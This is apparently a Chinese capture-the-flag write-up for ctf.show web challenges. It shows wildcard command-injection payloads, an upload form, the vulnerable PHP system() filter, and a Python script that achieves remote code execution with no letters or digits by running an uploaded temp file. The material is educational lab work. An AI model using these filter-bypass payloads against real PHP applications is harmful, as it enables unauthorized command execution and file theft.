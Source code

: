 ##### 方法一：使用base64对文件进行读取

**payload**

```url
?c=/???/????64 ????????
```

##### 方法二：bzip2的使用

**payload**

```
?c=/???/???/???2 ????.???
```

##### 方法三：强制文件上传下的无字母数字RCE

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Title</title>
</head>
<body>
<form action="http://1dd04609-ca53-4e68-a4d7-381957302f31.challenge.ctf.show/" enctype="multipart/form-data" method="post" >

    <input name="file" type="file" />
    <input type="submit" type="gogogo!" />

</form>

</body>
</html>
```

------

#### web56

```php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\\$|\(|\{|\'|\"|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}

```

**payload**

强制文件上传（python版）

```python
import requests
while True:
    url = "http://URL/?c=. /???/????????[@-[]"

    r = requests.post(url, files={"file": ("dota.txt", "cat flag.php")})
    flag = r.text.split('ctfshow')
    if len(flag) >1:
        print(r.text)
        break

```
